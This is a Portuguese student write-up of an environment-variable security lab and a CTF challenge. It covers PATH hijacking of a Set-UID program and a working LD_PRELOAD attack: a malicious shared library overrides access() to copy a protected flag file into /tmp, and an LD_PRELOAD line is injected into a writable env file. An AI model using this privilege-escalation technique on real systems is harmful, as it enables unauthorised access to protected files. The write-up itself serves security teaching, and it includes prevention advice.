


**Task 1:**
- Utilizamos o printenv e o env para dar “print” às variáveis de ambiente. Utilizamos também o  export e o unset  para dar “set” e “unset” nas mesmas variáveis de ambiente.

**Task 2:**
- Comparando as diferenças de ambos os files, usando o comando “diff”, percebemos que não há diferenças. 

**Task 3:**
- Executando essa alteração, observamos que o programa executado terá acesso às variáveis de ambiente do programa original. Concluímos assim, que as variáveis de ambiente não são passadas automaticamente usando “execve()”, tendo estas de serem passadas por argumentos.

**Task 4:**
- Usando o “system()” ao invés do “execve()”, temos acesso às variáveis de ambiente do sistema completo, em vez de ser só as de utilizador.

**Task 5:**
- Ao contrário do espectável, apenas as variáveis PATH e ANY_NAME estavam presentes, faltando assim a LD_LIBRARY_PATH, que não estava disponível por questões de segurança.

**Task 6:**
- Foi possível alterar o “PATH” para o programa, de forma a que ao executar o “a.out”, este executasse o nosso ficheiro “ls” que dava “print” em “You just got hacked!”, em vez de executar o “system(“ls”). Desta forma o códico malicioso está a correr com “root privilegie”. Percebemos que quando corremos outro terminal sem as mesmas funcionalidades de segurança, o programa corre com privilégios de "root".

## CTF semana \#4 Linux Environment

#### Investigação

Durante a investigação do servidor verificámos que existiam dois admins que partilhavam o mesmo ambiente de trabalho com a flag protegida por uma barreira de permissões. Descubrimos também que um dos admins deixou uma vulnerabilidade que nós, user nobody sem permissões, exceto na pasta /tmp e no executável flagreader, poderiamos aproveitar para chegar à flag.

#### Vulnerabilidade

Encontrámos um script a executar temporariamente que utiliza uma biblioteca partilhada, no entanto a vulnerabilidade não se encontrava no facto de ser uma biblioteca partilhada, mas sim  no ficheiro que contém as variáveis de ambiente a serem utilizadas pelo script ser um link para um ficheiro env da pasta /tmp podendo ser modificado pelo nobody(nós). Portanto é possível mudar a localização da biblioteca utilizada pelo programa e assim escrever uma função que será executada com permissão do flagreader acedendo à flag.

A vulnerabilidade em causa encontra-se nas variáveis de ambiente, ou seja, existem mais maneiras de as explorarmos. Por exemplo, qualquer executável utilizado pelo programa pode ser reescrito e ser adicionado no inicio da varriável PATH.

#### Código utilizado

    echo '
    #include <stdlib.h>

    int access(const char *pathname, int mode){
        system("/usr/bin/cat /flags/flag.txt > /tmp/tvic/flag.txt") ;
        system("chmod 777 /tmp/tvic/flag.txt");
        return 0;
    }' > /tmp/tvic/ataque.c

    gcc -fPIC -g -shared -o /tmp/tvic/ataque.so /tmp/tvic/ataque.c -lc

    echo 'LD_PRELOAD=/tmp/tvic/ataque.so' > /home/flag_reader/env

#### Prevenção

Uma opção para prevenir o ataque seria usar um caminho absoluto para o env em vez de um relativo ou proteger o ficheiro env.
